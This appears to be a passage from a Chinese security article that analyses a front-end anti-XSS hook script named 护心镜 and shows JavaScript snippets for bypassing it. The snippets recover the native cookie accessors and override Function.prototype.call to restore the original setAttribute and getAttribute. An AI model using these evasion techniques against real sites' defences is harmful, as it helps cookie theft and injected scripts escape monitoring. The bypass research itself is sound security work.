 
从代码中可以看出，使用了从 iframe 中读写 Cookie 来实现 钩子函数中的 cookie 操作，和第一个钩子的绕过方式相同，

直接利用作者的方法，使用 iframe 操作 cookie 就可以绕过钩子函数了（事实上，经常可以护心镜自己的代码逻辑绕过自身）。

当然了，这么写及其影响页面性能，使用了护心镜后，每一次有关 cookie 的操作都要在页面中创建 iframe、删除 iframe，不断如此。

其实可以通过如下方法直接获取 cookie 的读写接口：

    
    
    #!js
    Document.prototype.__lookupGetter__('cookie');
    Document.prototype.__lookupSetter__('cookie');
    

### 3\. 突破`Hook_Attribute`：原始接口招之即来

    
    
    #!js
    s.prototype.Hook_Attribute = function() {
        var e = ["setAttrib", "getAttrib", "FISH", "GET_PWD", "IMG.SRC:"];
        window.Element.prototype.setAttribute = function(t, n) {
          if (!isNaN(n) || n == s.white_tag || n.indexOf(s.report_uri) == 0 || n.indexOf(s.report_times_uri) == 0) {
            s._setAttribute.call(this, t, n);
            return
          }
          s.Report_w(e[0]), s.log("setAttrib"), s.log(n);
          if (this.tagName && t == "type" && this.tagName.toLowerCase() == "input") s.log("modify type"), s.Report_w(e[3]);
          else if (this.tagName && t == "src") {
            if (this.tagName.toLowerCase() == "img")
              s.log("SET SRC:" + n),
              n.indexOf("?") > 0 && !s.Check_domain(n) && n.split("?")[1].length > s.cookie_maxlen && s.Report(n);
          }
          else if (this.tagName.toLowerCase() == "frame" || this.tagName.toLowerCase() == "iframe") s.log("Frame src:" + n), s.Report_w("M_IFRAME_SRC");
          s._setAttribute.call(this, t, n)
        }, window.Element.prototype.getAttribute = function(t) {
          return s.log("getAttrib"), s.Hookpwd_tag && this.tagName && t == "value" && this.tagName.toLowerCase() == "input" && (s.log("getattr pwd"), s.Report_w(e[3])), s._getAttribute.call(this, t)
        }
    

将setAttibute方法重写了，可以看到代码中不断出现`toLowerCase`和`Check_domain`（你懂得），当然我们可以把原始接口再一次拿出来，

覆盖当前被 Hook 的 setAttribute 和 getAttibute。

    
    
    #!js
    Function.prototype.call = function () {
      if (this.name === 'setAttribute')
        HTMLElement.prototype.setAttribute = this;//还原了原始接口setAttribute
      else if (this.name === 'getAttribute')
        HTMLElement.prototype.getAttribute = this;//还原了原始接口getAttribute
    }
    